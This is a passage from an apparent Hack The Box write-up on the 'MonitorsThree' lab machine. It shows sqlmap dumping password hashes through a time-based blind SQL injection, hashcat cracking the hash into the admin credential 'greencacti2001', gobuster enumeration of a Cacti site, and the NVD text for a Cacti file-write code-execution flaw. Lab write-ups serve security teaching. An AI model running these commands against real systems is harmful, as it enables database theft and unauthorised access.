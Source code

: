 SQLmap also finds the parameter vulnerable to a time-based blind query.
![](/Screenshots/MonitorsThree_image_4.png)

We can use sqlmap to dump the databases with this vulnerability but it's slow. With time based blind SQLi, SQLmap will test each character and relies on a delay from a successful query using the sleep() function.

Lets try and dump the `users` table and `password` column:
```bash
┌──(fish㉿kali)-[~/htb/monitorsthree]
└─$ sqlmap -r forgot_pass.req --dump -D monitorsthree_db -T users -C password --batch
```

The second hash returned can be cracked!
```bash
┌──(fish㉿kali)-[~/htb/monitorsthree]
└─$ hashcat hash.txt /usr/share/wordlists/rockyou.txt -m 0  
...
31a181c8372e3afc59dab863430610e8:greencacti2001
```

And we can login to both the default subdomain application and the cactus application with `admin:greencacti2001`


### Cacti
```bash
┌──(fish㉿kali)-[~/htb/monitorsthree]
└─$ gobuster dir -u $URL -w /opt/SecLists/Discovery/Web-Content/raft-large-words.txt -t 50 -x php -b 404,403 -o gobuster-80-cacti.out 
...
/index.php            (Status: 302) [Size: 0] [--> /cacti]
/app                  (Status: 301) [Size: 178] [--> http://cacti.monitorsthree.htb/app/]
/.                    (Status: 302) [Size: 0] [--> /cacti]
/cacti                (Status: 301) [Size: 178] [--> http://cacti.monitorsthree.htb/cacti/]

```
![](/Screenshots/MonitorsThree_image_5.png)

Looks interesting. Looking at the cacti forums, this version released last December
![](/Screenshots/MonitorsThree_image_6.png)


Thanks to a sql injection vulnerability in the other web app, we were able to get a password for the admin user and theres an authenticated file write vuln.
`admin:greencacti2001`.

https://nvd.nist.gov/vuln/detail/CVE-2024-25641
>Prior to version 1.2.27, an arbitrary file write vulnerability, exploitable through the "Package Import" feature, allows authenticated users having the "Import Templates" permission to execute arbitrary PHP code on the web server. The vulnerability is located within the `import_package()` function defined into the `/lib/import.php` script. The function blindly trusts the filename and file content provided within the XML data, and writes such files into the Cacti base path (or even outside, since path traversal sequences are not filtered).
